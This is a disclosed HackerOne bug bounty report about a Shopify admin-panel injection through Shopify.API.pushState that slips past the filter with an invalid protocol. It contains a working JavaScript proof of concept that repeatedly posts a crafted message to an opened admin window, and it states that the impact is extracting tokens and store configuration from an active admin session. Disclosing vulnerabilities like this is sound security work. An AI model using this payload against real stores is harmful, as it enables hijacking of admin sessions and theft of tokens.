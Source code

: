 # Inject page in admin panel via Shopify.API.pushState with protocol invalid

## Report Details
- **Report ID**: 868615
- **URL**: https://hackerone.com/reports/868615
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-05-08T00:36:48.273Z
- **Disclosed**: 2020-12-27T22:14:40.193Z

## Reporter
- **Username**: tiago-danin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
# Disclose Token in reports
## Summary
Some time, i found a bug the #662083.
Today I found a new payload, invalid protocol are not tested correctly in filter method.

## Step to Reproduce
See the steps in #662083, but with payload of step 02 replace to:

```javascript
<script>
function attack(){
    const ctx = window.open(location.origin+'/admin/themes', '_blank')
    const data = JSON.stringify({
        message: 'Shopify.API.pushState',
        data: {pathname: "invalid:pages/xss"}
    });

    let interval;
    interval = setInterval(function(){
        if (window.attackSuccess) {
            clearInterval(interval)
        } else {
            ctx.postMessage(data)
        }
    }, 500)
}
attack()
</script>
<a href="javascript:attack()" style="display:block;text-align:center;width:100%;height:300px;line-height:300px;background:#000;color:#fff;">click me start attack</a>
```

## Impact

Abuse the active admin session to extract data as:

Get tokens.
Store config.

## Attachments
No attachments
